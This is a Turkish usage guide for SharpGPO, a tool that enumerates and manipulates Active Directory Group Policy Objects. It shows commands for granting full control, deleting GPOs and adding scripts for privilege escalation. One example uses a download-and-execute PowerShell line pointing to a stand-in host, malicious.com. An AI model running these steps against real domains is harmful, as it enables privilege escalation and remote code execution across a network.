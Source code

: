 # SharpGPO.exe Kullanım Kılavuzu

## Giriş
SharpGPO, Active Directory ortamında Grup Politika Nesneleri (GPO) ile ilgili bilgi toplamak ve bu nesneleri manipüle etmek için tasarlanmış bir siber güvenlik aracıdır. Bu aracın amacı, GPO kullanımı ile ilgili zafiyetleri belirlemek ve bunlardan yararlanmaktır.

---

## Özellikler
- **GPO Bilgi Toplama**: Belirli bir Active Directory ortamındaki mevcut GPO nesnelerini listeler.
- **GPO Manipülasyonu**: Mevcut GPO nesnelerine izin ekleme, silme veya değiştirme.
- **Yetki Eskalasyonu**: Hatalı veya eksik konfigüre edilmiş GPO nesnelerinden yararlanarak yetki yükseltme.

---

## Gereksinimler
- Windows işletim sistemi
- Active Directory üzerinde yeterli yetkilere sahip bir hesap
- .NET Framework kurulu olmalıdır

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
SharpGPO'nun yardım mesajını görmek için:
```cmd
SharpGPO.exe -h
```

### Tüm GPO Nesnelerini Listeleme
Domain ortamındaki mevcut tüm GPO nesnelerini listelemek için:
```cmd
SharpGPO.exe list
```

### Belirli Bir GPO Nesnesi Hakkında Detayları Görüntüleme
Belirli bir GPO nesnesinin detaylarını almak için:
```cmd
SharpGPO.exe details -name "GPO_NESNE_ADI"
```

### GPO Nesnesine Yeni Bir Kullanıcı Yetkisi Ekleme
Bir GPO nesnesine yeni bir kullanıcı veya grup eklemek için:
```cmd
SharpGPO.exe add-permission -name "GPO_NESNE_ADI" -user "KULLANICI_ADI" -permission "FULLCONTROL"
```

### GPO Nesnesinden Yetki Silme
Belirli bir kullanıcı veya grubun GPO yetkilerini silmek için:
```cmd
SharpGPO.exe remove-permission -name "GPO_NESNE_ADI" -user "KULLANICI_ADI"
```

### GPO Nesnesini Silme
Bir GPO nesnesini Active Directory'den silmek için:
```cmd
SharpGPO.exe delete -name "GPO_NESNE_ADI"
```

### Komut Dosyası Ekleyerek Yetki Eskalasyonu
Bir GPO nesnesine çalıştırılabilir bir komut dosyası eklemek için:
```cmd
SharpGPO.exe add-script -name "GPO_NESNE_ADI" -script "C:\Path\to\script.bat"
```

---

## Örnek Kullanımlar

### Varsayılan Domain Policy'sine Erişim Yetkisi Eklemek
Domain Policy'e "Administrator" kullanıcısı için tam kontrol yetkisi eklemek için:
```cmd
SharpGPO.exe add-permission -name "Default Domain Policy" -user "Administrator" -permission "FULLCONTROL"
```

### Tüm GPO Nesnelerini JSON Formatında Kaydetme
Domain'deki tüm GPO nesnelerini bir JSON dosyasına kaydetmek için:
```cmd
SharpGPO.exe list -format json -output "C:\Temp\gpo_list.json"
```

### Zararlı Bir Komut Dosyası Ekleyerek Yetki Yükseltme
Bir GPO nesnesine zararlı bir PowerShell betiği eklemek için:
```cmd
SharpGPO.exe add-script -name "Test GPO" -script "powershell.exe -ep bypass -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')\""
```

---

## Derleme Talimatları
SharpGPO kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı yükleyin.
2. Projeyi açın (`SharpGPO.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Kaynaklar
- [SharpGPO GitHub](https://github.com/GhostPack/SharpGPO)
- [GhostPack Belgeleri](https://posts.specterops.io/)

Bu rehber, SharpGPO aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
